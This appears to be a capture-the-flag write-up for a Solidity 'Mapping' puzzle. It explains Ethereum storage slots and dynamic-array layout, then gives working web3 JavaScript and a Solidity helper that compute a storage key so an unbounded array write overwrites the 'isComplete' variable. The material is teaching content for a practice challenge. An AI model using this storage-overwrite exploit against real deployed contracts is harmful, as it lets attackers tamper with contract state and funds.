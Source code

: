 # Mapping

According to the [Solidity docs](https://solidity.readthedocs.io/en/v0.4.20/miscellaneous.html#layout-of-state-variables-in-storage), static variables are stored in the order they are declared, starting at ```0```. The storage system in Ethereum is most easily understood as a very large array. Memory locations in Ethereum are called slots. Each Ethereum smart contract has ```2**256``` slots. Each slot maps to a 32 byte value. All slots are initially set to ```bytes32(0)```.

Dynamically sized arrays are stored a little differently to account for the uncertain amount of storage that might be needed throughout the life of the smart contract. For this reason, dynamic arrays (with the exception of ```byte``` arrays and ```strings```; see the docs) only occupy one slot when they are declared. The difference is that this slot is only occupied by the current ```length``` of the dynamically sized array. The actual storage location for the contents of this value type is then determined by the ```keccak256``` hash of the dynamic array's slot position. Each element within the array is stored sequentially starting with that hash value. As an example, if the dynamic array was the third variable to be declared then each item would be stored sequentially from the ```keccak256``` hash of ```bytes32(2)```.

For more on this topic check out this [multi-part series on Ethereum's Virtual Machine](https://blog.qtum.org/diving-into-the-ethereum-vm-6e8d5d2f3c30).

The order in which variables are declared can also affect the number of slots used when the Solidity code is compiled. Given that one slot is 32 bytes, if 4 variables are declared in this order:
```
uint256 a;
uint128 b;
uint256 c;
uint128 d;
```
These 4 variables will occupy 4 slots. But when rearranged like this:
```
uint256 a;
uint128 b;
uint128 d;
uint256 c;
```
They only take up 3 slots because the two uint128 variables are packed into one slot.

This implies that the order of variable declaration in Solidity matters.

From what we already know about an Ethereum smart contract's storage, we can deduce that the max length of a dynamic array would be the max allowable value of the smart contract's own storage array. The max slot of the storage area is 2**256 - 1 so the max size of a dynamic array would be 2**256 - 1. If this were the case, the dynamic array would then have the ability to point and re-write over any variable in contract storage given that the location of the target variable is known.

The exploiting the dynamic array is the key to this puzzle. The function 'set' gives the participant the ability to expand the array to any size and set the value at that position. For more info on this exploit, check out: https://github.com/Arachnid/uscc/tree/master/submissions-2017/doughoyte

To solve this puzzle, we must find the location of our target key-value pair: 'isComplete'. The value of an unset variable is '0' (false). We need to set it to '1' (true). Using Javascript:

const webThree = require('web3');
const bn = require('bn.js');

let web3 = new webThree(new webThree.providers.HttpProvider(
  'https://ropsten.infura.io/APIKEY'
));

// following values are uint256 hex encoded
// slot = 1
let slot = '0x0000000000000000000000000000000000000000000000000000000000000001';
// index = 0
let index = '0x0000000000000000000000000000000000000000000000000000000000000000';
// elementSide = 32
let elementSize = '0x0000000000000000000000000000000000000000000000000000000000000020';
// Value in memory we'd like to manipulate, targetMemoryLocation = 0
let targetMemoryLocation = '0x0000000000000000000000000000000000000000000000000000000000000000'

/*
key = 2**256 - keccak256(slot) + (index * elementSize) + targetMemoryLocation
key = 2**256 - keccak256(slot) + (0 * 32) + 0
key = 2**256 - keccak256(slot)
*/


let hashSlot = web3.utils.sha3(slot);
// return: 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6

// the calculation below is not accurate enough for our application
let maxUint = 2**256;
maxUint = maxUint.toString(10);
// return: 1.157920892373162e+77

// As you can see, Javascript sucks at big/little - endian values
// This library is a work around for this issue
let a = new bn('2', 10);
let b = new bn('256', 10);

let result = a.pow(b);
// return: "115792089237316195423570985008687907853269984665640564039457584007913129639936"

// strip hex prefix and create a big number from the sha3 hash
hashSlot = new bn(hashSlot.substring(2), 16);

let key = result.sub(hashSlot);
// return: 35707666377435648211887908874984608119992236509074197713628505308453184860938

// convert to hex:
key = web3.utils.toHex(key);
// return: 0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a


Alternatively, we can use this solidity contract to do the same thing

pragma solidity ^0.4.24;

contract cove {
   // arrLocation(1,0,32,2,0)
   function arrLocation(uint256 slot, uint256 index, uint256 elementSize, uint256 _two, uint256 _targetMemoryLocation)
    public
    view
    returns (bytes32)
    {
        return bytes32((_two ** 256) - uint256(keccak256(slot)) + (index * elementSize) + _targetMemoryLocation);
    }
}
/*
which also returns
"0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a"
or
"35707666377435648211887908874984608119992236509074197713628505308453184860938"
*/

To solve this puzzle call the 'set' function, to re-assign the 'isComplete' value to true:

set(key,value)

where,
key = "0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a"
value = 1
